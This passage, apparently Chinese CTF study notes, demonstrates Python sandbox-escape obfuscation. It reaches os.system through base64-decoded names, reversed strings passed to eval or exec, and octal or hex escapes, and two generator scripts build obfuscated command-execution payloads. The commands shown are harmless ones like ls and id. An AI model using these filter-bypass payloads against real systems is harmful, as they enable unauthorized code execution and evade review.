 #### base64 变形
base64 也可以运用到其中
```py
>>> import base64
>>> base64.b64encode('__import__')
'X19pbXBvcnRfXw=='
>>> base64.b64encode('os')
'b3M='
>>> __builtins__.__dict__['X19pbXBvcnRfXw=='.decode('base64')]('b3M='.decode('base64')).system('calc')
0
```

#### 逆序
```py
>>> eval(')"imaohw"(metsys.)"so"(__tropmi__'[::-1])
kali
>>> exec(')"imaohw"(metsys.so ;so tropmi'[::-1])
kali
```
注意 exec 与 eval 在执行上有所差异。

#### 进制转换
八进制：
```py
exec("print('RCE'); __import__('os').system('ls')")
exec("\137\137\151\155\160\157\162\164\137\137\50\47\157\163\47\51\56\163\171\163\164\145\155\50\47\154\163\47\51")
```

exp:
```py
s = "eval(list(dict(v_a_r_s=True))[len([])][::len(list(dict(aa=()))[len([])])])(__import__(list(dict(b_i_n_a_s_c_i_i=1))[False][::len(list(dict(aa=()))[len([])])]))[list(dict(a_2_b___b_a_s_e_6_4=1))[False][::len(list(dict(aa=()))[len([])])]](list(dict(X19pbXBvcnRfXygnb3MnKS5wb3BlbignZWNobyBIYWNrZWQ6IGBpZGAnKS5yZWFkKCkg=True))[False])"
octal_string = "".join([f"\\{oct(ord(c))[2:]}" for c in s])
print(octal_string)
```

十六进制：
```py
exec("\x5f\x5f\x69\x6d\x70\x6f\x72\x74\x5f\x5f\x28\x27\x6f\x73\x27\x29\x2e\x73\x79\x73\x74\x65\x6d\x28\x27\x6c\x73\x27\x29")
```

exp:
```py
s = "eval(eval(list(dict(v_a_r_s=True))[len([])][::len(list(dict(aa=()))[len([])])])(__import__(list(dict(b_i_n_a_s_c_i_i=1))[False][::len(list(dict(aa=()))[len([])])]))[list(dict(a_2_b___b_a_s_e_6_4=1))[False][::len(list(dict(aa=()))[len([])])]](list(dict(X19pbXBvcnRfXygnb3MnKS5wb3BlbignZWNobyBIYWNrZWQ6IGBpZGAnKS5yZWFkKCkg=True))[False]))"
octal_string = "".join([f"\\x{hex(ord(c))[2:]}" for c in s])
print(octal_string)
```

